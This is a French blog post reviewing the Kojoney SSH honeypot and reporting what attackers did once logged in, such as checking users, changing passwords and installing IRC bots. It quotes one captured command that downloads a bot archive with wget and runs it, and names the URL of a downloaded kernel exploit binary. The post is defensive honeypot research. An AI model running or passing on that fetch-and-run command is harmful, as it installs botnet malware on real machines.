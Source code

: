 ```yaml
---
title: "Revue du honeypot Kojoney"
tags: [honeypot]
---
```


[Kojoney](http://kojoney.sourceforge.net/) est un [honeypot](http://fr.wikipedia.org/wiki/Honeypot) à faible interaction.  

![Kojoney](/assets/img/kojoney.png)

Développé en [Python](http://fr.wikipedia.org/wiki/Python_(langage)) et basé sur les librairies réseau [Twisted](http://twistedmatrix.com/trac/), il émule un serveur SSH tournant sur un système où les utilisateurs ont des mots de passes faibles.  

Certains pirates ont recours à des scanneurs qui se connectent sur des adresses IP prises au hazard et qui tentent une [attaque par froce brute](http://fr.wikipedia.org/wiki/Attaque_par_force_brute) sur les mots de passes, ciblant principalement les mots de passes par défaut ou ceux dont l'utilisateur n'a pas fait preuve d'imagination.  

L'institut SANS tient à jour [un classement des 20 vulnérabilités qu'il juge les plus critiques](http://www.sans.org/top20/). Pendant très longtemps l'utilisation de mots de passes facilement trouvables était en tête du classement mais il semble qu'avec la prolifération des vers, des spywares et autres malwares, les mauvais mots de passes ont une importance moindre. Pourtant, ils sont et seront toujours présents.  

Si vous vous promenez sur les forums spécialisés Linux vous avez sans doute déjà vu quelques personnes se plaindre de ces attaques. Et même si la plupart du temps ces attaques échouent, [elles font beaucoup parler d'elles](http://www.google.fr/search?hl=fr&q=brute+force+ssh).  

Kojoney vous permet d'analyser ce traffic. Le logiciel enregistre dans des fichiers de log toutes les tentatives qui ont été faites ainsi que les commandes tapées par le pirate dès que celui-çi a trouvé un des comptes utilisé par Kojoney.  

Kojoney a plusieurs défauts, même s'il n'en est pas forcément le responsable. Premièrement il faut avouer que les pirates qui effectuent de telles attaques ne sont généralement pas d'un niveau très élevé. Il faut dire qu'effectuer des attaques brute-force est ce qu'il se fait de moins discret. Ça génère une quantité de logs impressionnante, c'est facilement détecté par des logiciels de surveillance et même un informaticien débutant peut se douter qu'il se passe quelque chose de louche en voyant sa bande passante réduite aussi vite.  

Le second problème est qu'il ne fait que simuler un serveur SSH. Techniquement le programme ne fait que boucler sur ce que tape l'utilisateur et y répondre quand il en est capable. Par conséquent, on atteint très facilement les limites de ce faux environnement, il est par exemple impossible de se promener ailleurs que dans la racine (/) et le pirate ne peut pas utiliser de programmes interactifs (emacs, vim, ftp...)  

Toutefois, avec les versions 0.0.4 il est possible pour ceux qui ont quelques connaissances en Python de rajouter très facilement des commandes à ce shell virtuel.  

J'utilise Kojoney depuis un bon bout de temps maintenant et j'y ai apporté quelques retouches (c'est tout l'avantage des [logiciels libres](http://fr.wikipedia.org/wiki/Logiciel_libre)) afin de rendre l'environnement plus réaliste. Malheureusement toute la partie gestion du terminal est laissée à la librairie `Twisted Conch` et certaines modifications semblent impossibles à apporter (utilisations des flèches pour gérer l'historique, utilisation de la touche backspace...)  

La [version 0.0.4.1](http://sourceforge.net/project/showfiles.php?group_id=143961&package_id=186042) apporte une nouvelle fonctionnalité : télécharger dans le dossier `/var/log/kojoney` les fichiers que les pirates auront tenté de rapatrier avec wget ou curl.  

La lecture des logs peut être assez longue, heureusement différentes commandes permettent d'obtenir un résultat plus lisible. Le principal utilitaire est `kojreport` qui génère des statistiques sur les attaquants (pays les plus actifs, commandes les plus utilisés etc)  

Rien qu'au niveau des logiciels d'attaques utilisés on remarque des différences : certains continuent d'attaquer après avoir trouvé un mot de passe, d'autre s'arrêtent au premier compte obtenu.  

La plupart du temps les pirates se servent d'une machine compromise pour effectuer l'attaque et se connectent au compte en utilisant une autre machine (leur machine perso ?) Généralement les attaquants sont humains mais quelques fois on a affaire à des outils automatisés qui lancent des commandes en aveugle, par exemple :  

```bash
wget free-ftp.org/trkalce/botovi.tar.gz;tar -zxvf botovi.tar.gz;cd bots;chmod +x inetd;./inetd
```

Quelques attaquants se concentrent uniquement sur le compte root, allant parfois jusqu'à ne tenter qu'un seul mot de passe (root/root ?).  

Les premières actions des pirates consistent généralement à vérifier s'ils sont seuls sur la machine (`w` ou `who`), à savoir où ils sont (`pwd`, `ls`) et sur quoi ils se trouvent (`uname`, `uptime`). Ensuite ils tentent de changer le mot de passe (`passwd`) - pour éviter que quelqu'un passe derrière eux - et téléchargent une backdoor.  

Dans la grande majorité des cas il s'agit d'un bot irc. Le programme se connecte à un serveur IRC, dans un cannal donné et attend que quelqu'un sur ce canal lui donne des ordres. La machine vient très probablement se rajouter à un [botnet](http://fr.wikipedia.org/wiki/Botnet).  

Les pirates ne maîtrisent pas tous Linux comme ils le devraient et abandonnent très vite en voyant que certaines commandes ne sont pas présentes ou leur sont interdites. Ils manquent de curiosité et ne prennent pas le temps de comprendre ce qu'il se passe.  

Pour tout dire, un seul a jusqu'à présent eu l'intention de passer root.  

Il a téléchargé un binaire nommé `hat` à l'adresse `dogg-crew.com/nightfox/hat`. Après l'avoir placé dans un `chroot` et l'avoir _stracé_ j'ai très vite compris qu'il s'agissait d'un exploit pour une faille dans les kernels 2.4 (`do_brk`). Le nom de l'exploit complet étant [hatorihanzo](http://packetstormsecurity.org/0312-exploits/hatorihanzo.c) on comprend mieux le nom du fichier.  

Le binaire a d'autres particularités intéressantes. Tout d'abord il semble vérolé et est détecté comme étant [Virus.Linux.Osf.8759](http://www.viruslist.com/en/viruslist.html?id=48280) (ou Linux/OSF.A)  

Il faut avouer que le fichier est assez imposant (423Ko) même pour un programme compilé statiquement. Une grande partie du code semble être crypté et certains désassembleurs se cassent les dents dessus :  

![Linux/OSF.A](/assets/img/ht_linux_osf.jpg)


*Published January 06 2011 at 14:04*
